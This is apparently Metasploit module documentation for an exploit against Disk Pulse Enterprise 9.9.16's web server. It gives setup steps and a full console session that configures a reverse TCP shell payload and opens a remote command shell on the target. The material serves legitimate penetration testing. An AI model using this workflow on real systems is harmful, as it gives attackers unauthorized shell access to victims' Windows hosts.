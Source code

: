 ## Vulnerable Application

  Tested on Windows 7 x64 and x86.

  Install the application from the link below and enable the web server by going to Options -> Server -> Enable Web Server on Port.

  [Disk Pulse Enterprise v 9.9.16](https://www.exploit-db.com/apps/45ce22525c87c0762f6e467db6ddfcbc-diskpulseent_setup_v9.9.16.exe)

## Verification Steps

  1. Install the application and set the option above to enable the web server
  2. Start msfconsole
  3. Do: ```use exploit/windows/http/disk_pulse_enterprise_get```
  5. Set options and payload
  6. Do: ```run```
  7. You should get a shell.

## Options

### RHOST

  IP address of the remote host running the server.

### RPORT

  Port that the web server is running on.  Default is 80 but it can be changed when setting up the program or in the options.

## Scenarios

  To obtain a shell:

  ```
msf > use exploit/windows/http/disk_pulse_enterprise_get
msf exploit(disk_pulse_enterprise_get) > set payload windows/shell_reverse_tcp
payload => windows/shell_reverse_tcp
msf exploit(disk_pulse_enterprise_get) > set RHOST x.x.x.x
RHOST => x.x.x.x
msf exploit(disk_pulse_enterprise_get) > set LHOST y.y.y.y
LHOST => y.y.y.y
msf exploit(disk_pulse_enterprise_get) > set LPORT 1234
LPORT => 1234
msf exploit(disk_pulse_enterprise_get) > set RPORT 8080
RPORT => 8080
msf exploit(disk_pulse_enterprise_get) > exploit

[*] Started reverse TCP handler on y.y.y.y:1234
[*] Generating exploit...
[*] Sending exploit...
[*] Command shell session 1 opened (y.y.y.y:1234 -> x.x.x.x:64567) at 2017-09-14 10:52:06 -0500

Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>
  ```
